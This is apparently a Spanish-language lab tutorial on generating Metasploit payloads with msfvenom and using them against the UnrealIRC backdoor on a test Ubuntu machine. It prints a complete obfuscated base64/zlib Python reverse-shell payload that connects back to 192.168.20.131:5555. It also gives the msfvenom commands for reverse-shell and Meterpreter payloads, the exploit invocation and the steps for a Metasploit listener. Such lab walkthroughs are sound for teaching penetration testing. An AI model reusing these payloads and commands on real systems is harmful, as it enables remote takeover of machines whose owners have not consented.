








msfvenom -h

Se trata de un generador de payloads.
Vamos a generar un payload para la vulnerabilidad de UnrealIRC de la máquina ubuntu.
msfvenom -p python/shell_reverse_tcp lhost=192.168.20.131 lport=5555

exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNpNjstuwyAQRdfwFd4ZVBcZ96G0EouocqWoahsl3kcOTBQUFxCD298vNF50dmfumYf9Cj6mCr2+QKpGrJDapTUfQ/QaEEs7UvQKxdVjKNavh81HPzQo9p8vb4f9sOvX7zxLQnvnQCfGavnUCfm4El0r5J2sm4dcnNOfs52gGuIMz5QYlUci6G8m2+6eU2JP1QSOGa5Um3NyjDBeKAkqiq0PJREGtDfA6jmdblc1b/AM06TKwgaTsa6om21fwM/pH0GMC+VDXgVxNfL90TB+88fZWZiS/BqCM8xz+gsYJFx8')[0])))
Copiamos el payload y vamos a modificar aquel que descargamos de github.
Comentamos el anterior o lo eliminamos y pegamos el nuevo:

Importante modificar las comillas y añadir una contra-barra para que no las trate como comillas.

Lanzamos el exploit
./exploit.py 192.168.20.128 -payload python
Por supuesto se pueden crear muchos más payloads:
msfvenom -p python/meterpreter_reverse_tcp lhost=192.168.20.131 lport=5555
En ese caso directamente inyecta en el propio payload el meterpreter lo que supone un código demasiado grande y aquí es cuando vemos el uso real de los stagers y stages.
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.20.131 lport=5555
Ese cambio hace que el payload generado cree el reverse shell por TCP y una vez hecho desde los stages inyecta el meterpreter.
Para poder recibir esta conexión debemos establecer un listener handler en metasploit.


Seleccionamos el payload que hemos creado antes:
set payload python/meterpreter/reverse_tcp


Lanzamos el exploit.